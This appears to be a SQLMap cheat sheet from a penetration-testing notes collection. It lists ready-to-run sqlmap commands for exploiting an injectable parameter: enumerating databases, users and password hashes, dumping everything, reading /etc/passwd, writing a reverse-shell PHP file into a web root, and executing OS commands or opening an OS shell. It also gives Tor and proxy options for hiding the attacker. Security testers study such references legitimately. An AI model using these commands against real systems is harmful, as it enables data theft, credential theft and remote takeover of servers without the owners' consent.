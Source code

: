 # SQLMap



Cheat Sheet Link\
[https://cdn.comparitech.com/wp-content/uploads/2021/07/sqlmap-Cheat-Sheet.pdf](https://cdn.comparitech.com/wp-content/uploads/2021/07/sqlmap-Cheat-Sheet.pdf)



Target: At least one of these options has to be provided to define the target(s)

```
-u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
-d DIRECT           Connection string for direct database connection
-l LOGFILE          Parse target(s) from Burp or WebScarab proxy log file
-m BULKFILE         Scan multiple targets given in a textual file
-r REQUESTFILE      Load HTTP request from a file
-g GOOGLEDORK       Process Google dork results as target URLs
-c CONFIGFILE       Load options from a configuration INI filecode
```

```
sqlmap -r req.txt -p namePeople
```

SQLmap Tutorial Enumeration

```
--current-user      Retrieve DBMS current user
--current-db        Retrieve DBMS current database
--hostname          Retrieve DBMS server hostname
--is-dba            Detect if the DBMS current user is DBA
--users             Enumerate DBMS users
--passwords         Enumerate DBMS users password hashes
--privileges        Enumerate DBMS users privileges
```

Dump Everything

```
sqlmap -r req.txt -p namePeople --all
sqlmap -r req.txt -p namePeople --banner
```

Read All Databases

```
sqlmap -r req.txt -p namePeople --dbs
```

Read Current User

```
sqlmap -r req.txt -p namePeople --current-user
sqlmap -r req.txt -p namePeople --roles
```

Read Hostname

```
sqlmap -r req.txt -p namePeople --hostname
```

Read User Privileges

```
sqlmap -r req.txt -p namePeople --privileges
```

SQLmap File System Access - These options can be used to access the back-end database management system underlying file system

```
 --file-read=FILE..  Read a file from the back-end DBMS file system
 --file-write=FIL..  Write a local file on the back-end DBMS file system
 --file-dest=FILE..  Back-end DBMS absolute filepath to write to
```

Read File From Remote System

```
sqlmap -r req.txt -p namePeople --file-read=/etc/passwd --batch
```

Upload File to Remote System

```
sqlmap -r req.txt -p namePeople --file-write=/home/user/rshell.php --file-dest=/var/www/html --batch
```

SQLmap Operating System Access - These options can be used to access the back-end database management system underlying operating system

```
 --os-cmd=OSCMD      Execute an operating system command
 --os-shell          Prompt for an interactive operating system shell
 --os-pwn            Prompt for an OOB shell, Meterpreter or VNC
 --os-smbrelay       One click prompt for an OOB shell, Meterpreter or VNC
 --os-bof            Stored procedure buffer overflow exploitation
 --priv-esc          Database process user privilege escalation
 --msf-path=MSFPATH  Local path where Metasploit Framework is installed
 --tmp-path=TMPPATH  Remote absolute path of temporary files directory
```

```
sqlmap -r req.txt -p namePeople --os-cmd=ifconfig
sqlmap -r req.txt -p namePeople --os-shell
```

SQLmap Windows Registry Access - These options can be used to access the back-end database management system Windows registry

```
--reg-read          Read a Windows registry key value
--reg-add           Write a Windows registry key value data
--reg-del           Delete a Windows registry key value
--reg-key=REGKEY    Windows registry key
--reg-value=REGVAL  Windows registry key value
--reg-data=REGDATA  Windows registry key value data
--reg-type=REGTYPE  Windows registry key value type
```

SQLmap with Anonymity

```
--proxy=PROXY       Use a proxy to connect to the target URL
--proxy-cred=PRO..  Proxy authentication credentials (name:password)
--proxy-file=PRO..  Load proxy list from a file
--proxy-freq=PRO..  Requests between change of proxy from a given list
--tor               Use Tor anonymity network
--tor-port=TORPORT  Set Tor proxy port other than default
--tor-type=TORTYPE  Set Tor proxy type (HTTP, SOCKS4 or SOCKS5 (default))
--check-tor         Check to see if Tor is used properly
```

SQLmap over Proxy

```
sqlmap --proxy="http://<proxy-ip>:<proxy-port>" 
sqlmap --proxy="http://<proxy-ip>:<proxy-port>" --proxy-cred=username:password
```

SQLmap over TOR

```
sqlmap --tor --tor-port=9050 --tor-type=SOCKS5 -r req.txt --dbs
sqlmap --check-tor

```

{% embed url="https://www.poplabsec.com/complete-sqlmap-tutorial/" %}
